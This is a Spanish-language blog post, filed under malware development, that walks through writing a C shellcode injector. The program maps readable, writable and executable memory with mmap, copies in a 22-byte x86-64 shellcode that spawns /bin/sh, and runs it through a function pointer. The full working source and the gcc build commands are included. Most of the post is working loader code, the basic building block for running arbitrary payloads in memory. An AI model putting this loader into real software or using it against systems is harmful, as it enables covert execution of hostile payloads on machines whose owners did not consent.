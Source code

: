 ```yaml
---
layout: post
title: Inyeccion de shellcodes usando la syscall mmap
author: c4rta
date: 2023-06-10
categories: [MalDev]
cover: /imgs/mmap_injection/waifu.gif
---
```

Desarrollaremos un programa en C el cual inyectara una shellcode usando la syscall mmap()

## mmap

mmap es una syscall y una funcion incorporada en el header ```sys/mman.h``` la cual permite asignar o mapear memoria dentro del espacio de direcciones virtuales de un proceso, mmap regresa un puntero void (void *), la estructura es:

```c
void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);
```

- **void *addr**: Es la direccion desde donde se va a asignar la memoria, esta direccion se la podemos asignar manualmente, o en todo caso de que le pogamos ```NULL```, le estamos diciendo al kernel que asigne la memoria, regularmente  la asigna a direcciones cercanas pero mayores a ```/proc/sys/vm/mmap_min_addr```

- **size_t length**: Es la longitud en bytes de la memoria que se va a asignar

- **int prot**: Se refiera a con que protecciones vamos a asignar la memoria, hay varias
  - PROT_EXEC: La memoria es ejecutable
  - PROT_READ: La memoria tiene permisos de lectura
  - PROT_WRIT: La memoria tiene permisos de escritura

- **int flags**: Determina si las actualizaciones de la memoria, son visibles para otras asignaciones de memoria dentro de la misma region de la memoria, existe muchas flags, asi que puedes leer cada una de ellas [aqui](https://man7.org/linux/man-pages/man2/mmap.2.html).

- **int fd**: Es el descriptor de archivos el cual sera asginado

- **off_t offset**: Es el desplazamiento desde donde se va a asignar la memoria

Una vez sabiendo eso ya podemos comenzar a tirar codigo

## Desarrollo del programa

Primero debemos de empezar a declarar nuestra shellcode como una cadena de caracteres de esta manera:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

const char shellcode[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05";
```
La shellcode ejecutara un /bin/sh

Dentro de una funcion, empezare a declarar todo el codigo de la inyeccion, primero debemos sacar el tamaño en bytes de la shellcode, ya que es uno de los argumentos que recibe **mmap**

```c
void ejecutar_shellcode(){
    size_t tam_shellcode = sizeof(shellcode) - 1;
}
```
Observa que se le esta agregando un ```- 1```, esto es para quitarle el byte nulo.

Despues haremos el llamado a ```mmap```:

```c
void ejecutar_shellcode(){
    size_t tam_shellcode = sizeof(shellcode) - 1;

    void* shellcode_mem = mmap(
        NULL,
        tam_shellcode,
        PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0
    );
}
```

La direccion donde se va a asignar la memoria es ```NULL``` para que el kernel la elija, el tamaño de la memoria a asignar es el tamaño de la shellcode, en las flag le decimos que la memoria se asigne con permisos de lectura, escritura, y ejecucion, con el ```-1``` le estamos diciendo al descriptor de archivos que no se requiere un archivo ya existente y que solo asigne memoria, y te podras dar cuenta de algo, estamos usando la flag ```MAP_ANONYMOUS + MAP_PRIVATE```, con esas flags le estamos indicando que la asignacion sera simplemente un bloque de memoria en ceros (por eso mismo el offset es 0), la cual estara lista de usar, ademas de ser privada, es decir, estara excluida de otras asignaciones de memoria dentro de la misma region de memoria

Aqui dibuje un diagrama de la asgnacion de memoria con mmap tomando en cuenta el ejemplo

![](/imgs/mmap_injection/mmap.jpeg)

Lo que se ve a la izquierda es la memoria virtual de un proceso (sin entrar tanto en detalle), te podras dar cuenta que la memoria de la shellcode se asigno dentro de una seccion que se llama ```Memory Mapping```, en esta seccion se asigna memoria para las librerias compartidas y dinamicas, ademas de las asignaciones de ```mmap```, pero ojo, para que una asignacion de ```mmap``` recida en esta seccion, debe de ir con la flag ```MAP_ANONYMOUS```.

Resumidamente el diagrama seria algo asi:

- Usamos ```sizeof()``` para obtener el tamaño de la shellcode y lo guardamos en ```tam_shellcode```
- Asignamos memoria con ```mmap``` donde el tamaño es lo que tiene ```tam_shellcode``` (22 bytes)
- Usamos ```MAP_ANONYMOUS``` para indicarle que la asignacion se haga dentro de la seccion ```Memory Mapping```,

una vez que asignamos memoria para la shellcode, debemos de copiar la shellcode en esa memoria, eso lo hacemos con ```memcpy```, memcpy se usa para copiar cierta cantidad de bytes desde un origen a un destino.

```c
memcpy(shellcode_mem, shellcode, tam_shellcode);
```

En nuestro ejemplo le estamos diciendo que copie 22 bytes (tam_shellcode) del origen (shellcode), hacia la memoria que asignamos (shellcode_mem), y con esta operacion, nuestra shellcode ya estara escrita en la memoria que asigamos con mmap.

Ahora debemos de invocar a la shellcode, para eso realizamos esto:

```c
void (*shellcode_ptr)() = (void (*)())shellcode_mem;
shellcode_ptr();
```

Primero definimos ```shellcode_ptr``` como un puntero a una funcion, con el fin de asignar a ```shellcode_ptr``` la direccion de memora que contiene ```shellcode_mem``` ya que cabe recordar que ```shellcode_mem``` contiene la direccion de memoria desde donde se asigno la shellcode, que es un tipo void *

Despues con ```void (*)()``` le estamos diciendo que defina un puntero a una funcion que no recibe argumentos ni tampoco retorne nada, esto con el fin de que ```shellcode_mem``` sea interpretado como un puntero hacia esa funcion, entonces a travez de ```shellcode_ptr``` podemos mandar a llamar a ```shellcode_mem```.

Asi que cuando se haga un llamado a ```shellcode_ptr();```, ejecutara lo que esta almacenado en ```shellcode_mem```, lo cual es la shellcode:D

Despues solo queda a mandar a llamar a la funcion ```ejecutar_shellcode()``` desde el main:

```c
int main() {
    ejecutar_shellcode();
    return 0;
}
```

Y el codigo completo queda asi:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

const char shellcode[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"; //bin/sh

void ejecutar_shellcode(){
    size_t tam_shellcode = sizeof(shellcode) - 1;

    void* shellcode_mem = mmap(
        NULL,
        tam_shellcode,
        PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0
    );

    memcpy(shellcode_mem, shellcode, tam_shellcode);

    printf("Tamaño de la shellcode: %zu bytes\n", tam_shellcode);
    printf("Shellcode asignada desde la direccion: %p\n", shellcode_mem);

        void (*shellcode_ptr)() = (void (*)())shellcode_mem;

        shellcode_ptr();
}

int main() {
    ejecutar_shellcode();
    return 0;
}
```

Solo queda compilar y ejectuar

```
gcc -o inyeccion_mmap inyeccion_mmap.c
./inyeccion_mmap
```

Eso ha sido todo, gracias por leer ❤
